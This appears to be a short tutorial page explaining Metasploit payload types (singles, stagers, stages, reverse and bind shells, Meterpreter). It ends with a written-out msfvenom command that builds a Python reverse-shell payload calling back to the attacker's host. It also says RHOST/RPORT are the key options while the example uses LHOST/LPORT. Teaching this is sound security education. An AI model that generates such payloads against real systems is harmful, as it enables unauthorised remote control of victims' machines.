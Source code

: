 Categories of Payloads:
#### Singles
- Standalone payloads that perform a specific action without requiring additional components.
- Example: Adding a user to the system (`adduser`) or executing a command.
#### Stagers
- Lightweight payloads designed to establish a connection between the attacker and the target.
- Their purpose is to facilitate the delivery of a larger payload (stage) while using minimal resources.
- Example: reverse_tcp (sets up a reverse connection from the target to the attacker).
#### Stages
- Larger, feature-rich payloads sent after the stager establishes a connection.
- Stages offer advanced capabilities, such as a full interactive session or remote control.
- Example: `meterpreter` (a robust, interactive shell with advanced tools for post-exploitation).
### Reverse Shell Payloads:

The target system initiates a connection back to the attacker's machine.
Useful when the target is behind a firewall or NAT. Example:
`linux/meterpreter/reverse_tcp`
### Bind Shell Payloads

The target system opens a port and waits for the attacker to connect.
Often blocked by firewalls but useful in certain situations. Example:
`windows/meterpreter/bind_tcp`

### Meterpreter Payloads

An advanced, modular payload that allows you to interact with the target system.
Includes features like process management, file transfer, and privilege escalation. Example:
`windows/meterpreter/reverse_https`

Most payloads require 2 key options:
- RHOST: The target's IP address where the shell will be available.
- RPORT: The port on the target system to connect to.

Example (to generate a Python payload):
```python
msfvenom -p python/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=4444 -f raw > payload.py
```

